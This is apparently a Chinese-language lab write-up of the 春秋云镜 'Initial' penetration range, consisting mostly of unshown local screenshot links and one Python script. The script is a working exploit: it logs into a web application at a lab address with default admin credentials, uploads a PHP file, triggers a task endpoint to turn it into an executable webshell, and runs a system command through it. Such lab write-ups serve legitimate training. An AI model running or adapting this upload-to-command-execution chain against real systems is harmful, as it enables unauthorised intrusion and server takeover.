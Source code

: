 ## 文章

[记一次春秋云镜域渗透靶场Initial - 先知社区](F:\LocalCTF\记一次春秋云镜域渗透靶场Initial - 先知社区.html)

## 打靶记录

![image-20231009224946360](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231009224946360.png)

![image-20231009225031687](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231009225031687.png)

![image-20231009225316879](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231009225316879.png)

![image-20231009225324750](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231009225324750.png)

![image-20231010001121327](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231010001121327.png)

![image-20231010001541398](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231010001541398.png)

![image-20231009231620286](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231009231620286.png)

![image-20231010001701014](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231010001701014.png)

![image-20231009231718955](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231009231718955.png)

![image-20231009231846276](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231009231846276.png![image-20231010002040523](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231010002040523.png)

![image-20231010003334683](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231010003334683.png)

```python
import requests


session = requests.session()

url_pre = 'http://172.22.1.18/'
url1 = url_pre + '?a=check&m=login&d=&ajaxbool=true&rnd=533953'
url2 = url_pre + '/index.php?a=upfile&m=upload&d=public&maxsize=100&ajaxbool=true&rnd=798913'
url3 = url_pre + '/task.php?m=qcloudCos|runt&a=run&fileid=11'

data1 = {
    'rempass': '0',
    'jmpass': 'false',
    'device': '1625884034525',
    'ltype': '0',
    'adminuser': 'YWRtaW4=',
    'adminpass': 'YWRtaW4xMjM=',
    'yanzm': ''
}


r = session.post(url1, data=data1)
r = session.post(url2, files={'file': open('1.php', 'r+')})

filepath = str(r.json()['filepath'])
filepath = "/" + filepath.split('.uptemp')[0] + '.php'
id = r.json()['id']
print(id)
print(filepath)
url3 = url_pre + f'/task.php?m=qcloudCos|runt&a=run&fileid={id}'

r = session.get(url3)
r = session.get(url_pre + filepath + "?1=system('dir');")
print(r.text)
```

![image-20231010003800715](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231010003800715.png)

![image-20231010004051909](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231010004051909.png)

![image-20231010013134481](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231010013134481.png)
